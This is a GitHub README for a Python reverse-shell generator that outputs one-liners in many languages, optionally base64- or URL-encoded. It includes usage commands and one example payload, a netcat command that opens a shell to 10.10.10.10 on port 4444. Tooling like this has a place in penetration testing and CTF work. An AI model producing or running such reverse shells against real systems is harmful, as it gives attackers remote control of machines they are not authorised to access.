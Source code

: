## Requirements
Pyperclip
```bash
  pip3 install pyperclip
```
## Quick usage

#### Clone the repository (or just copy-paste)
```bash
  sudo git clone https://github.com/Gurguii/Reverse-shell-Generator
```
#### Run the script
```bash
    python3 reverse.py -sh <revshell_type> -lh <lhost> -lp* <lport> -enc* <encode_type>
```  
**Note:** default LPORT is 4444, params with * are optional.  
**Available revshells:** bash, netcat, ncat, rustcat, perl, php, windows, powershell, python, ruby, socat, nodejs, telnet, zsh, lua, golang, awk.  
**Available encodes**: base64(also accepts b64 as input), url  
### Useful info  
- Get a list of all available reverse shells  
```bash
    python3 reverse.py -s listall
```  
- Get a list of reverse shells of a given type with the name
```bash
    python3 reverse.py -s nc=list
```
Output:  
 ![image](https://user-images.githubusercontent.com/101645735/178015002-a7ec7467-8b62-4c14-9648-e0c0bf90e019.png)

- Choose a specific reverse shell by name
```bash
    python3 reverse.py -s nc=exe -lh 10.10.10.10
```
This would return => **nc.exe -e sh 10.10.10.10 4444**

## Test 
- Created reverse shell:
```bashi
  hack@hack:~$ python3 reverse.py -s bash=gurgui -lh localhost -lp 9001
```
![If you see this text you are having trouble loading the gif :(](https://media.giphy.com/media/woqDTmU2pL2tc4eJ5c/giphy.gif)  

As you might have noticed, I wrote bash=gurgui, that's because I changed the name of that exact bash rshell to gurgui in the script.  
Having the script in ur path with custom names for shells you usually go for might make this super fast.  
